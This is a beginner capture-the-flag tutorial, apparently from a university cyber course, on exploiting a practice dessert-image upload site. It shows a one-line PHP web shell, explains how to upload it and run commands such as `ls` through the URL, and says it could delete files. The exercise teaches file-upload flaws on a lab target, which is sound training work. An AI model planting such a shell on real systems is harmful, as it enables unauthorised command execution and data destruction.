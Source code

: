 # Dessert Database File Upload Exploitation
This page will help you learn how Alice and Bob's dessert database works
and help you hack into it just like those L33k3ers!

![USA Cake](https://d213sdapb08052.cloudfront.net/assets/recipes/flag-cake/_ogImage/IMG_1153.jpeg?mtime=20200521120223)

## Lets Begin
First, lets begin by going to the database itself...
> <a href="http://desserts.gel.webfactional.com/" target="_blank">DATABASE</a>

Here you will see the option to upload a picture of your favorite dessert!

Go ahead, find a picture of your favorite dessert, download the image to your computer, then upload!

Cool right?

Now here is the part that Alice and Bob want you to pay close attention to...

## Exploit
We want you to download this file below...

> <a href="https://udel.codes/cyber2/Hack.php" target="_blank">Hacky File</a>

The contents of this file are the following

`<? print_r(system($_GET['cmd'])); ?>`

What this line of code does is it allows for us to inject (enter) bash commands into the url. These bash commands can do all types of malicious things such as go list all the files the website contains, delete files, ect. We could destroy the website if we wanted to!

**But we won't do that cause we are not the L33k3ers!**

Now that you know what this file does, upload that file just as you did with your dessert image

Once you do that, you will be directed to a page that says 
> We got your cake image: /cakes/Hack.php

With a little image underneath

**Right click** on this image and select, **"Open Image in new Tab"**

Once at the new webpage, go to the url and at the very end put this statement...

`?cmd=ls`

Hit enter, and now you see a list of all the files that the website contains! Crazy right! 

The command that is executed is directly after the `=`, so like we learned in the bash tutorial, `ls` prints all the contents of a directory. Now, find the **flag!**

## You are truly becoming an expert!

You are getting better with every exercise, Bob and Alice are proud and present you with this badge. Throw it on your website to mark your accomplishments!

![Dessert Exploitation](https://udel.codes/cyber2/Dessert_Exploitation.png)







